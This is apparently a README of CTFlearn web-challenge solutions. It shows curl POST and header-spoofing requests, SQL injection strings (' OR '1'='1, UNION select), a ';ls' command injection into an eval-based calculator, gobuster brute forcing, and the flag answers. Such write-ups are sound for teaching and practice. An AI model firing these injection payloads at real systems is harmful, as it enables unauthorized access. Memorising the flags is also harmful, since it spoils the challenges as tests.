

# POST Pratice

If you go to the site and have it inspected, you will see a username and a password.

Execute `curl -X POST http://165.227.106.113/post.php -d "username=admin&password=71urlkufpsdnlkadsf"` on [Reqbin](https://reqbin.com/curl) to send a request and get the flag

<details>
<summary markdown="span">Answer</summary>

flag :``
flag{p0st_d4t4_4ll_d4y}
``
</details>

# Basic Injection

Paste the query in the input : `SELECT * FROM webfour.webfour where name = ' OR '1' = '1'`

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
``
</details>

# Inj3ction Time

Paste the query in the input : `.1 union select f0und_m3,2,3,4 from w0w_y0u_f0und_m3`

<details>
<summary markdown="span">Answer</summary>

flag :``
abctf{uni0n_1s_4_gr34t_c0mm4nd}
``
</details>

# Don't Bump Your Head(er)

If you go to the site and have it inspected, you will see a User-agent. 

So now just change your user-agent with `Sup3rS3cr3tAg3nt`:


Now, you have the referer to `awesomesauce.com`

Execute `curl -v -H 'User-Agent: Sup3rS3cr3tAg3nt' --referer awesomesauce.com http://165.227.106.113/header.php` on [Reqbin](https://reqbin.com/curl) to send a request and get the flag

<details>
<summary markdown="span">Answer</summary>

flag :``
flag{did_this_m3ss_with_y0ur_h34d}
``
</details>

# Calculat3 M3

The site gives a calculator that you can click the buttons to input expression, then it will eval the expression and gives a result. The display is set to `readonly`, by removing the attribute we can input whatever we want.

Try to get the contents in directory, set the expression to `;ls`. Submit it to get a list of file names in result, the flag is the one starts with ctf.

<details>
<summary markdown="span">Answer</summary>

flag :``
ctf{watch_0ut_f0r_th3_m0ng00s3}
``
</details>

# My Blog

Go to the site, click on `blog`, inspect the site, check in `Application` into `Local Storage` and you found the flag.

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{n7f_l0c4l_570r463_15n7_53cur3_570r463}
``
</details>

# Gobustme ?

Go to the site, you see a Ghostbuster theme song and lyrics, but *Ghostbuster* is replaced by *Gobuster* and a file txt

The link explains what kind of software it is. So go install :

```sh
sudo apt install gobuster
```

If you want, [DirBuster](https://www.kali.org/tools/dirbuster/) is more beginner friendly because is a GUI while gobuster is a CLI but it is much slower than the othervery.

So now go brut force the website with the file txt : 

```sh
gobuster dir -u https://gobustme.ctflearn.com/ -w /home/guill/common.txt
```



Now, height page of the website is brute force, let's go check in, the `/flag` is a fake, the real is `/hide`.

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{gh0sbu5t3rs_4ever}
``
</details>

# AudioEdit

Too long to write here, check below

<details>
<summary markdown="span">Full explanation</summary>

[here](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/explanation_audioedit.md)
</details>

<details>
<summary markdown="span">Answer</summary>

flag :``
ABCTF{m3t4_inj3cti00n}
``
</details>

# Grid It!

Too long to write here, check below

<details>
<summary markdown="span">Full explanation</summary>

[here](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/explanation_gridit.md)
</details>

<details>
<summary markdown="span">Answer</summary>

flag :``
ctflearn{obj3ct_inj3ct1on}
``
</details>